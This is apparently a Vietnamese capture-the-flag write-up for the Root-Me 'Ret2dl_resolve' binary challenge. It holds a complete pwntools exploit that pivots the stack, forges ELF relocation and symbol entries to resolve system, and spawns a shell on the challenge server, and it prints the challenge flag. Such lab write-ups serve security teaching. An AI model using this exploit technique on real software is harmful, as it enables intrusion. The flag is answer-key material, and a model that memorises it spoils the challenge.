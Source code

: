 # Ret2dl_resolve
# Reverse
Thông tin về challenge trên web.
![challenge_info](https://github.com/zirami/Root-me/blob/main/ret2dl_resolve/images/challenge_info.png)
Sử dụng lệnh SCP để kéo file challenge trên web root-me về.
![pull_challenge](https://github.com/zirami/Root-me/blob/main/ret2dl_resolve/images/pull_challenge.png)
Kéo file vừa kéo về máy vào IDA để xem pseudo code.
![main_func](https://github.com/zirami/Root-me/blob/main/ret2dl_resolve/images/main_func.png)

Nhận thấy rằng, trong hàm main chỉ gọi duy nhất 1 hàm read, không thể leak địa chỉ (không có thêm bất kỳ 1 hàm nào có chức năng in ra màn hình), như vậy không thể dùng ret2libc để khai thác được. Chúng ta sẽ dùng kỹ thuật có tên là Ret2dl_resolve để giải quyết challenge này.
# Exploit

```py
from pwn import *
#r = process("./ch77")
#con_ssh = ssh(host='challenge03.root-me.org',port=2223,user='app-systeme-ch77',password='app-systeme-ch77')
#r = con_ssh.run("./ch77")
r = remote("challenge03.root-me.org","56577")
_elf = ELF("./ch77")

pause()

resolver = 0x80482d0    #push link_map and call dl_resolve
buf = 0x804af00         #controllable area (.bss)
leave_ret = 0x08048398   #gadget
SYMTAB = 0x80481cc
STRTAB = 0x804821c
JMPREL = 0x8048298

# Pivoting the stack and calling read(0, buf, 0x80)
buffer = ""
buffer += "A"*24
buffer += p32(buf)   #stack pivoting. (esp = buff)
buffer += p32(_elf.plt["read"]) + p32(leave_ret) + p32(0) + p32(buf) + p32(0x80) 


# Compute offsets and forged structures
forged_ara = buf + 0x14
rel_offset = forged_ara - JMPREL
elf32_sym = forged_ara + 0x8 #size of elf32_sym

align = 0x10 - ((elf32_sym - SYMTAB) % 0x10) #align to 0x10

elf32_sym = elf32_sym + align
index_sym = (elf32_sym - SYMTAB) / 0x10

r_info = (index_sym << 8) | 0x7 

elf32_rel = p32(_elf.got['read']) + p32(r_info)
st_name = (elf32_sym + 0x10) - STRTAB
elf32_sym_struct = p32(st_name) + p32(0) + p32(0) + p32(0x12)

buffer2 = 'AAAA'                #fake ebp
buffer2 += p32(resolver)        # ret-to dl_resolve
buffer2 += p32(rel_offset)      #JMPRL + offset = struct
buffer2 += 'AAAA'               #fake return 
buffer2 += p32(buf+100)         # system parameter
buffer2 += elf32_rel            # (buf+0x14)
buffer2 += 'A' * align
buffer2 += elf32_sym_struct     # (buf+0x20)
buffer2 += "system\x00"
buffer2 = buffer2.ljust(100,'A')
buffer2 += "sh\x00"
p = (0x80 - len(buffer2))
buffer2 += "A" * p              #total read size

r.send(buffer)
r.send(buffer2)
r.interactive()
```
## Flag = RootMe{No_n33d_to_l34k_to_get_a_sh3LL}